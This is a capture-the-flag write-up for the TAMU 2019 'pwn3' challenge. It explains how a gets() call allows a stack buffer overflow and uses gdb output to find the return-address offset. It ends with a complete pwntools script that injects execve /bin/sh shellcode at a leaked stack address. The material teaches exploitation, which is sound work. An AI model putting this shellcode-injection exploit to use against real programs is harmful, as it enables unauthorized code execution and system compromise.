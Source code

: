 # Tamu 2019 Pwn 3

This was done on `Ubuntu 20.04.4 LTS`.

Let's take a look at the binary:

![intro_data](pics/intro_data.png)

So we are dealing with a 32 bit binary. When we run it, it prints out what looks like a stack address and prompts us for input. When we take a look at the main function in Ghidra, we see this:

![main](pics/main.png)


Looking through the main function, the most important thing here is that it calls the `echo` function. Let's take a look at that function in Ghidra:

![echo](pics/echo.png)


So we can see that this function prints the address of the char buffer `input`, then calls `gets` with `input` as an argument. This is a bug since `gets` doesn't restrict how much data it scans in, we get an overflow. With this we can overwrite the return address and get code execution. The question is now what do we call? There aren't any functions that will either print the flag or give us a shell like in some of the previous challenges. We will instead be using shellcode.

Shellcode is essentially just precompiled code that we can inject into a binary's memory, and if we redirect code execution to it it will run. It will need to match the architecture, in this case will be `Linux/x86`. Whenever I need just generic shellcode I typically grab it from http://shell-storm.org/shellcode/ (or you could just google for shellcode, or make it yourself which we will cover later). I'll be using the `Linux/x86 - execve /bin/sh shellcode - 23 bytes` shellcode by `Hamza Megahed` found at `http://shell-storm.org/shellcode/files/shellcode-827.php`. The shellcode I'm using will just pop a shell for us when we run it.

Now we can inject it into memory, however we need to deal with something called ASLR (Address Space Layout Randomization). This is a binary mitigation (a mechanism made to make pwning harder). What it does is it randomizes all of the addresses for various memory regions, so every time the binary runs we don't know where things are in memory. While the addresses are random, the offsets between things in the same memory region remain the same. So if we just leak a single address from a memory region that we know what it is, since the offsets are the same we can figure out the address of anything else in the memory region.

This also applies to where our shellocde is stored in memory, which we need to know in order to call it. Luckily for us, the address printed is the start of our input on the stack. So we can just take that address and overwrite the return address with it, to call our shellcode.

Let's use gdb to see how much space we have between the start of our input and the return address:

```
gef➤  disas echo
Dump of assembler code for function echo:
   0x0000059d <+0>:	push   ebp
   0x0000059e <+1>:	mov    ebp,esp
   0x000005a0 <+3>:	push   ebx
   0x000005a1 <+4>:	sub    esp,0x134
   0x000005a7 <+10>:	call   0x4a0 <__x86.get_pc_thunk.bx>
   0x000005ac <+15>:	add    ebx,0x1a20
   0x000005b2 <+21>:	sub    esp,0x8
   0x000005b5 <+24>:	lea    eax,[ebp-0x12a]
   0x000005bb <+30>:	push   eax
   0x000005bc <+31>:	lea    eax,[ebx-0x191c]
   0x000005c2 <+37>:	push   eax
   0x000005c3 <+38>:	call   0x410 <printf@plt>
   0x000005c8 <+43>:	add    esp,0x10
   0x000005cb <+46>:	sub    esp,0xc
   0x000005ce <+49>:	lea    eax,[ebp-0x12a]
   0x000005d4 <+55>:	push   eax
   0x000005d5 <+56>:	call   0x420 <gets@plt>
   0x000005da <+61>:	add    esp,0x10
   0x000005dd <+64>:	nop
   0x000005de <+65>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x000005e1 <+68>:	leave  
   0x000005e2 <+69>:	ret    
End of assembler dump.
gef➤  b *echo+61
Breakpoint 1 at 0x5da
gef➤  r
Starting program: /Hackery/pod/modules/bof_shellcode/tamu19_pwn3/pwn3 
Take this, you might need it on your journey 0xffffcf3e!
15935728
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffcf3e  →  "15935728"
$ebx   : 0x56556fcc  →  <_GLOBAL_OFFSET_TABLE_+0> aam 0x1e
$ecx   : 0xf7faf5c0  →  0xfbad2288
$edx   : 0xf7fb089c  →  0x00000000
$esp   : 0xffffcf20  →  0xffffcf3e  →  "15935728"
$ebp   : 0xffffd068  →  0xffffd078  →  0x00000000
$esi   : 0xf7faf000  →  0x001d7d6c ("l}"?)
$edi   : 0x0       
$eip   : 0x565555da  →  <echo+61> add esp, 0x10
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
───────────────────────────────────────────────────────────────────── stack ────
0xffffcf20│+0x0000: 0xffffcf3e  →  "15935728"	 ← $esp
0xffffcf24│+0x0004: 0xffffcf3e  →  "15935728"
0xffffcf28│+0x0008: 0xffffcf4c  →  0x00000000
0xffffcf2c│+0x000c: 0x565555ac  →  <echo+15> add ebx, 0x1a20
0xffffcf30│+0x0010: 0x00000000
0xffffcf34│+0x0014: 0x00000000
0xffffcf38│+0x0018: 0x00000000
0xffffcf3c│+0x001c: 0x35310000
─────────────────────────────────────────────────────────────── code:x86:32 ────
   0x565555ce <echo+49>        lea    eax, [ebp-0x12a]
   0x565555d4 <echo+55>        push   eax
   0x565555d5 <echo+56>        call   0x56555420 <gets@plt>
 → 0x565555da <echo+61>        add    esp, 0x10
   0x565555dd <echo+64>        nop    
   0x565555de <echo+65>        mov    ebx, DWORD PTR [ebp-0x4]
   0x565555e1 <echo+68>        leave  
   0x565555e2 <echo+69>        ret    
   0x565555e3 <main+0>         lea    ecx, [esp+0x4]
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pwn3", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x565555da → echo()
[#1] 0x5655561a → main()
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x565555da in echo ()
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[heap]'(0x56558000-0x5657a000), permission=rwx
  0x56558160 - 0x56558168  →   "15935728" 
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rwx
  0xffffcf3e - 0xffffcf46  →   "15935728" 
gef➤  info frame
Stack level 0, frame at 0xffffd070:
 eip = 0x565555da in echo; saved eip = 0x5655561a
 called by frame at 0xffffd090
 Arglist at 0xffffd068, args: 
 Locals at 0xffffd068, Previous frame's sp is 0xffffd070
 Saved registers:
  ebx at 0xffffd064, ebp at 0xffffd068, eip at 0xffffd06c
```  

Just a bit of math:

![python3_math](pics/python3_math.png)


We can also see this offset via looking at the stack layout, and seeing that `input` is stored at offset `0x12e` (although I've noticed ghidra on occasion will get this wrong):

![stack_layout](pics/stack_layout.png)

So the space between the start of our input and the return address is `0x12e` bytes. This makes sense since the char array which holds our input is `294` bytes large, and there are two saved register values (ebx and ebp) on the stack in between our input and the saved return address each `4` bytes a piece (`294 + 4 + 4 = 0x12e`). With all of this, we have all we need to write the exploit:

```
from pwn import *

target = process('./pwn3')

# Print out the text, up to the address of the start of our input
print(target.recvuntil(b"journey "))

# Scan in the rest of the line
leak = target.recvline()

# Strip away the characters not part of our address
shellcodeAdr = int(leak.strip(b"!\n"), 16)

# Make the payload
payload = b""
# Our shellcode from: http://shell-storm.org/shellcode/files/shellcode-827.php
payload += b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
# Pad the rest of the space to the return address with zeroes
payload += b"0"*(0x12e - len(payload))
# Overwrite the return address with the leaked address which points to the start of our shellcode
payload += p32(shellcodeAdr)

# Send the payload
target.sendline(payload)

# Drop to an interactive shell to use our newly popped shell
target.interactive()
```

When we run it:

![exploit_running](pics/exploit_running.png)

Just like that, we popped a shell!
